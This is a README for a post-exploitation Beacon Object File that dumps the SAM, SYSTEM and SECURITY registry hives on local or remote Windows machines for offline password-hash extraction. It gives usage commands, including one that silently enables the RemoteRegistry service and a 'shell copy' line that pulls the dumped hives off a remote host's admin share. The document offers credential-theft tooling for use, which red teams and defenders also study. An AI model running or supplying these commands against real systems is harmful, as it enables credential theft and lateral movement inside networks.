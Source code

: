 # BOF - RemoteRegSave

A fork of [RegSave BOF](https://github.com/EncodeGroup/BOF-RegSave). Dump SAM/SYSTEM/SECURITY registry key hives on local or remote computer for offline parsing and hash extraction..



### Usage

Dump registry key hives on local computer (admin elevation required)

```
RegSave --path [file path <optional>]
```

Dump registry key hives on remote computer (automatically enable service RemoteRegistry if disabled)

```
RegSave --pc remotePC --path [file path <optional>]
shell copy \\remoteSrv\C$\Windows\temp\HG029* .
```



### Compile

```linux
cd SOURCE
make
```



### References

+ [RegSave BOF](https://github.com/EncodeGroup/BOF-RegSave)
+ [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)